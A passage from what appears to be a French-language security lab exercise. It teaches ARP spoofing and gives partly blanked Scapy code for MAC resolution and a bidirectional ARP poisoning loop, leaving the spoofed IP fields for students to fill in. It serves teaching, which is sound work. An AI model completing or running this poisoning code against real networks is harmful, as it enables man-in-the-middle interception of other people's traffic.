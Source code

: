 ## Étape 3 : L'attaque ARP Spoofing

### Compréhension de l'attaque

L'attaquant va maintenant envoyer des réponses ARP falsifiées pour se faire passer pour :
- Le serveur auprès de la victime
- La victime auprès du serveur

### Exercice 3 : Code à compléter - L'attaquant

Le fichier `attacker/attacker.py` contient plusieurs sections à compléter. Ces trous sont conçus pour vous forcer à lire le code et comprendre les étapes clés de l'attaque.

**Analysez d'abord attentivement tout le code, puis complétez les sections suivantes :**

#### 3.1 : Résolution d'adresse MAC (lignes 60-66)

```python
# TODO: Créer un paquet Ether(dst="BROADCAST_MAC") / ARP(pdst=TARGET_IP)
packet = PACKET_ARP  # TODO: à compléter
answered, _ = srp(packet, timeout=2, retry=3, iface=iface, verbose=0)
for _, response in answered:
    mac = RESPONSE_MAC  # TODO: extraire la MAC depuis response[Ether].src
```

**Question** : À quoi sert cette fonction `resolve_mac()` et pourquoi est-elle essentielle pour l'attaque ?

#### 3.2 : Empoisonnement ARP bidirectionnel (lignes 70-91)

```python
def poison_arp(victim_mac: str, server_mac: str, attacker_mac: str) -> None:
    """
    ÉTAPE 2 : Empoisonnement ARP bidirectionnel.

    Diffuse en boucle deux réponses ARP falsifiées pour que victime et serveur
    nous croient à l'autre bout.

    TODO : Compléter les trames ARP falsifiées avec les bonnes IP sources (psrc).
    """
    log("starting ARP poisoning loop")
    # TODO: Compléter les champs psrc pour usurper les identités
    frame_to_victim = Ether(dst=victim_mac, src=attacker_mac) / ARP(
        op=2, pdst=VICTIM_IP, hwdst=victim_mac, psrc=SPOOFED_IP_FOR_VICTIM, hwsrc=attacker_mac  # TODO: quelle IP usurper ?
    )
    frame_to_server = Ether(dst=server_mac, src=attacker_mac) / ARP(
        op=2, pdst=SERVER_IP, hwdst=server_mac, psrc=SPOOFED_IP_FOR_SERVER, hwsrc=attacker_mac  # TODO: quelle IP usurper ?
    )
    while not stop_event.is_set():
        sendp(frame_to_victim, verbose=0, iface=INTERFACE)
        sendp(frame_to_server, verbose=0, iface=INTERFACE)
        time.sleep(POISON_INTERVAL)
    log("ARP poisoning loop stopped")
```
